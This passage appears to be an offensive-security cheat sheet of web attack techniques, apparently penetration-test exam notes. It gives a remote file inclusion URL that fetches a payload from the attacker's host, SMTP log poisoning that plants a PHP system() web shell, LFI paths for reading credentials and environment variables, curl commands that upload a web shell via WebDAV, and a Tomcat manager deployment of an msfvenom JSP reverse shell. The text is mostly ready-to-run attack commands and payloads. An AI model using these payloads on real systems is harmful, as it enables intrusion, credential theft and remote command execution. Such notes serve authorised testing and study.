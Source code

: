 Remote file inclusion is rarely enabled but it can be done in this way,
put your payload into PAYLOAD.EXT, replace PAYLOAD to any preferred file name
and replace .EXT to any applicable extension
```
http://IP/FI?=http://YOUR_KALI_IP/PAYLOAD.EXT
```

#### SMTP code injection associate with LFI to RCE
```bash
#Connect to the smtp port with nc/telnet
EHLO who_you_are
VRFY TARGET_USER
mail from:you
rcpt to: TARGET_USER
data
Subject: WHATEVER
<?php echo system($_REQUEST['cmd']);?>
    #<- this extra newline is essential
.   #<- also this period is essential
```

#### LFI notes
* /proc/self/status can see the web server current run as which user and proc id etc
* /proc/self/environ see process environment variable, potential password stored in env
* /var/log/apache2/access.log is one example of log paths, may fuzz with these [lists](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders) to see which files are usable
* /var/mail/TARGET_USER, at the end of request add a &cmd to execute command
* if you have write access to the host, upload a file that the host, use LFI filter to check if the file uploaded correctly(path and extension), remove the base64 wrapper for execution
* [null byte termination](https://gabb4r.gitbook.io/oscp-notes/web-http/lfi-and-rfi/null-byte-injection) `%00` only works before php 5.3
* if none of these work, try to view config.php,db_connect.php and see if they left any creds

### webdav
```bash
davtest -url IP -sendbd auto
# see want can be sent and executed
# say if txt and html can be executed
# copy your web shell and name it as .txt
curl -X PUT http://IP/shell.txt --data-binary @shell.txt 
curl -X MOVE -H "Destination:http://IP/shell.aspx" http://IP/shell.txt
```

### tomcat 
```bash
# use the enumerated login for manager portal
# create payload, add EXITFUNC=thread if target is Windows
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war -o rev.war
# go to manager panel -> war file to deploy
# click on the deployed war url for invoking reverse shell
# Sometimes the tomcat application cannot execute msfvenom created payload
# It can still be exploited by manually crafting a web shell payload
cp /usr/share/webshells/jsp/cmdjsp.jsp ./cmd.jsp
# Then manually create the war file
jar -cvf rev.war cmd.jsp
# Deploy and go to /rev/cmd.jsp in the browser, you should have a web shell there.
```
